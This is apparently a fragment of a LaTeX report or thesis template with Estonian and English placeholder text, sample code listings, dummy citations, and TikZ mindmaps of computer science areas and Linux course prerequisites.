/dev/sda1              239G  227G  6,0G  98% /
none                   4,0K     0  4,0K   0% /sys/fs/cgroup
udev                   3,9G  4,0K  3,9G   1% /dev
tmpfs                  790M  964K  789M   1% /run
none                   5,0M     0  5,0M   0% /run/lock
none                   3,9G   14M  3,9G   1% /run/shm
none                   100M   88K  100M   1% /run/user
/dev/sda1              239G  227G  6,0G  98% /home
\fbox{\color{red}/home/margus/.Private}  239G  227G  6,0G  98% /home/margus
\end{Verbatim}
%$



\section{Section name}
\begin{enumerate}
	\item Siia midagi nummerdatut
	\item veel midagi
\end{enumerate}
\subsection{subsection name}
Please see Figure ~\ref{Lab Setup} on page ~\pageref{Lab Setup} for bla bla bla.

\begin{minted}{c}
int main() {
printf("hello, world");
return 0;
}
\end{minted}
\begin{minted}{sh}
echo $(pidof mysql)
apt-get install firefox
$333
\end{minted}
\inputminted{sh}{code/simple.sh}

\begin{figure}
    \centering
	
\includegraphics[width=\textwidth]{Lab_setup.pdf}
	\caption{Lab Setup}
	\label{Lab Setup}
\end{figure}


dddddd d  e d dwe \



\cite{website:ssl} Bla bla
\citep{book:code-complete} d  d
\citep{OppeArenduskeskus2010} de dede
\cite{url:pulse} ewd wed
\citep{SecEngineering} wewde
The \gls{EITC} gives blaa blaa blaa.

Some unicode symbols
道場

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Computer Science}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {practical}
      [clockwise from=90]
      child { node[concept] {algorithms} }
      child { node[concept] {data structures} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {applied}
      [clockwise from=-30]
      child { node[concept] {databases} }
      child { node[concept] {WWW} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Course pre requirements skills}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {GNU/Linux}
      [clockwise from=90]
      child { node[concept] {Able to use text editor} }
      child { node[concept] {Understanding of File System Hierarchy} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {Experience with command line}
      [clockwise from=-30]
      child { node[concept] {file manipulation with cp,mv,touch,rm,mkdir etc} }
      child { node[concept] {user management with adduser, passwd, id, getent, usermod, addgroup, useradd, groupadd} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}
